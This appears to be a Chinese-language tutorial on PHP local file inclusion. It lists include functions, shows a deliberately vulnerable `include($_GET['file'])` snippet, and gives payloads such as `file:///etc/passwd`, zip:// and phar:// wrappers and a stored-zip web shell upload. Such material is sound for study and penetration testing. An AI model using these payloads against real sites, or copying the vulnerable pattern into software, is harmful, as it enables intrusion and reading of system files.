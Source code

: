## 1. 与文件包含相关的函数
--------------

```
require         找不到被包含的文件时会产生致命错误，并停止脚本运行。
include         找不到被包含的文件时只会产生警告，脚本将继续运行。
include_once    与include类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。
require_once    与require类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含 
```

## 2. 本地文件包含(LFI--Local File Include)
-----------------------------------

只要网站支持上传，上传任意后缀文件，被包含的文件中含有效的php代码，则引入当前文件执行，若不含有效php代码，则直接输出文件内容

*   样例：

```
echo "<?php phpinfo();?>" > info.txt

# lfi.php
<?php include($_GET['file']); ?>

#
http://ip/?file=info.txt 
```

| 协议 | 附加条件 | php | 样例 (file=) |
| --- | --- | --- | --- |
| zip:// | ZIP extension |  | zip://archive.zip#dir/file.txt |
| phar:// |  |  | phar://archive.zip/file.txt |
| file |  |  | file:///etc/passwd |

### 2.1. zip://

> zip extension

```
# zip 内含目录
zip://archive.zip#dir/file.txt

# url 中使用 "%23"(#)
?f=zip://path_to_zip%23inside_file_name 
```

#### 2.1.1. 上传zip利用

文件压缩成zip包，压缩的时候注意要选择only store之类的选项，防止数据被压缩

```
zip -0 1.zip shell.php 
```
